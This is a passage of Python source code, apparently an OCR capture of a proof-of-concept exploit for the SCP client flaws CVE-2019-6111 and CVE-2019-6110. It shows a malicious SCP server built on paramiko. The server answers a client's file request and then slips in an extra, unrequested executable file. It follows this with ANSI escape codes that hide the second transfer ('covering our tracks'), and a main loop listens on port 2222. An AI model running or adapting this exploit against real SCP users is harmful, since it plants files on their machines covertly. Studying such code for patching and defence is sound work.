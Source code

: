 ```python
        return True

    def send_file(self, channel, file):
        '''
        The meat of the exploit:
            1. Send the requested file.
            2. Send another file (exploit.txt) that was not requested.
            3. Print ANSI escape sequences to stderr to hide the transfer of
               exploit.txt.
        '''
        def wait_ok():
            assert channel.recv(1024) == b'\x00'
        def send_ok():
            channel.sendall(b'\x00')

        wait_ok()

        logging.info('Sending requested file "%s" to channel %d', file,
            channel.get_id())
        command = 'C0664 {} {}\n'.format(len(dummy), file).encode('ascii')
        channel.sendall(command)
        wait_ok()
        channel.sendall(dummy)
        send_ok()
        wait_ok()

        # This is CVE-2019-6111: whatever file the client requested, we send
        # them 'exploit.txt' instead.
        logging.info('Sending malicious file "exploit.txt" to channel %d',
            channel.get_id())

        command = 'C0777 {} generatereport\n'.format(len(payload)).encode('ascii')
        channel.sendall(command)
        wait_ok()
        channel.sendall(payload)
        send_ok()
        wait_ok()

        # This is CVE-2019-6110: the client will display the text that we send
        # to stderr, even if it contains ANSI escape sequences. We can send
        # ANSI codes that clear the current line to hide the fact that a second
        # file was transmitted..
        logging.info('Covering our tracks by sending ANSI escape sequence')
        channel.sendall_stderr("\x1b[1A".encode('ascii'))
        channel.close()

def main():
    logging.info('Creating a temporary RSA host key...')
    host_key = paramiko.rsakey.RSAKey.generate(1024)
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('0.0.0.0', 2222))
    sock.listen(0)
    logging.info('Listening on port 2222...')

    while True:
        client, addr = sock.accept()
        logging.info('Received connection from %s:%s', *addr)
        transport = paramiko.Transport(client)
        transport.add_server_key(host_key)
        server = ScpServer()
        transport.start_server(server=server)

```